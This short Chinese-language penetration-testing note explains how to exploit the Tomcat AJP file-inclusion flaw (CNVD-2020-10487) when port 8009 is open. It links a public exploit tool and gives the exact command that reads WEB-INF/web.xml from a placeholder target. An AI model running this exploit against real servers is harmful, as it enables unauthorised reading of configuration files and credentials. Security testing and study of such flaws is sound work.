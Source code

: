 当发现目标为tomcat应用服务器，且开启8009或类似的端口，可尝试tomcat ajp文件包含漏洞

借助工具：https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/

执行命令
```
python2 ./tool/CNVD-2020-10487-Tomcat-Ajp-lfi.py xx.xx.xx.xx -p 8443 -f WEB-INF/web.xml
```
借用网图  
![image](./pic/1.png)  
